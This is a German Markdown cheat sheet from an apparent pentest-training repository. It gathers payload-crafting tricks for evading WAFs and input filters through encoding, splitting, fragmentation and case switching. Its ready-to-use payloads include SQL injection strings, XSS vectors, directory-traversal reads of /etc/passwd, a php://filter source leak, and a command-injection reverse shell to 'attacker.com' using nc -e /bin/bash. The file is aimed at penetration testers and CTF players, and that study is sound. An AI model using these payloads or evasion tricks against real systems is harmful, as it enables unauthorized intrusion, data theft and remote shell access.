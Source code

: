 # 🎯 Payload Crafting Tips

**Ziel dieser Datei:**  
Diese Datei bietet eine kompakte Übersicht über Techniken zur Erstellung und Modifikation von Payloads – speziell im Hinblick auf die Umgehung von Web Application Firewalls (WAF), Filtern und anderen sicherheitsrelevanten Eingabekontrollen. Sie richtet sich vor allem an Penetration Tester, CTF-Spieler und Red Team-Mitglieder, die mit komplexen Eingabefiltern konfrontiert sind.

> **Disclaimer:** Diese Inhalte dienen ausschließlich zu Schulungs- und Testzwecken in autorisierten Umgebungen. Die Anwendung in produktiven oder fremden Systemen ohne ausdrückliche Genehmigung ist illegal.



## Inhaltsverzeichnis
- [Typische Encoding-Techniken](#typische-encoding-techniken)
- [Evasion-Techniken bei WAF / Inputfilter](#evasion-techniken-bei-waf--inputfilter)
- [Keywords fragmentieren](#keywords-fragmentieren)
- [Zeitbasierte Payloads (blind testing)](#zeitbasierte-payloads-blind-testing)
- [Beispiele nach Angriffsart](#beispiele-nach-angriffsart)
- [Hinweise](#hinweise)
- [Nützliche Tools](#nützliche-tools)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Typische Encoding-Techniken

### 1. **URL-Encoding**
Wird oft verwendet, um Sonderzeichen zu maskieren.

| Zeichen | Encoding |
|--------|----------|
| `space` | `%20` oder `+` |
| `'`     | `%27` |
| `"`     | `%22` |
| `<`     | `%3C` |
| `>`     | `%3E` |
| `&`     | `%26` |
| `=`     | `%3D` |

> Beispiel:  
`<script>alert(1)</script>` → `%3Cscript%3Ealert(1)%3C/script%3E`



### 2. **Base64-Encoding**
Nützlich bei Befehlseinschleusungen (z. B. in RCEs, SQLi).

Beispiel in PHP:
```php
echo base64_decode('ZWNobyAnSGFja2VkIQ==');

→ Ausgabe: echo 'Hacked!'
```



### 3. Hex-Encoding / Char-Bypass
Alternative Darstellung für Payloads.

```sql
SELECT CHAR(65,66,67); -- ergibt "ABC"
```

Für XSS:

```html
<script>alert(1)</script>
```
Oder
```html
<svg /onload=String.fromCharCode(97,108,101,114,116)(1)>
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Evasion-Techniken bei WAF / Inputfilter
### Zeichen-Splitting / Padding
```html
<scr<script>ipt>
```
```bash
/bin/ba$IFS$IFSsh
```

| Technik                    | Beispiel              |
| -------------------------- | --------------------- |
| **Splitting**              | `<scr<script>ipt>`    |
| **Whitespace Tricks**      | `/bin/ba$IFS$IFSsh`   |
| **Keyword Fragmentierung** | `UNION/**/SELECT`     |
| **Comments**               | `ec/*x*/ho test`      |
| **Case Switching**         | `SeLeCt * FrOm users` |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Keywords fragmentieren
```sql
UNION/**/SELECT
```
```php
ec/*comment*/ho "test";
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Zeitbasierte Payloads (blind testing)
Nützlich bei blind RCE oder SQLi:

```sql
' OR IF(1=1,SLEEP(5),0) --
```
```bash
ping -c 5 127.0.0.1
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Beispiele nach Angriffsart
### SQL Injection
- ' OR 1=1 --
- `admin'/**/OR/**/1=1--+`
- UNION SELECT NULL,NULL,NULL--
- CONCAT(CHAR(117,115,101,114),CHAR(112,119))

### Remote Code Execution (RCE)
```bash
127.0.0.1|echo hacked
127.0.0.1;nc -e /bin/bash attacker.com 4444
127.0.0.1&&sleep 5
```

### Cross-Site Scripting (XSS)

```html
<img src=x onerror=alert(1)>
<script>alert(1)</script>
<svg/onload=alert(document.domain)>
```

### Directory Traversal / LFI

```bash
../../../../etc/passwd
....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=index.php
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>



## Hinweise
- Unterschiedliche Filter verlangen unterschiedliche Bypässe. Teste iterativ.
- In CTFs werden häufig Custom-Filter eingebaut – Payload-Crafting ist oft die Lösung.
- Nutze Burp Suite's Repeater oder Tools wie `wfuzz`, `ffuf`, `sqlmap` für Automatisierung.
- Viele WAFs prüfen nur Signaturen -> ungewöhnliche Kodierungen oder Fragmentierungen helfen oft.


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>



## Nützliche Tools
- [🔍 HackBar (Burp Extension)](https://portswigger.net/bappstore/93c19861f4df4e60bd9d4568cdd97ed6)
- [🧪 PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [⚡ SecLists (Payload Collections)](https://github.com/danielmiessler/SecLists?utm_source=chatgpt.com)
- [🔎 FuzzDB (Web Fuzzing Payloads)](https://github.com/fuzzdb-project/fuzzdb?utm_source=chatgpt.com)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
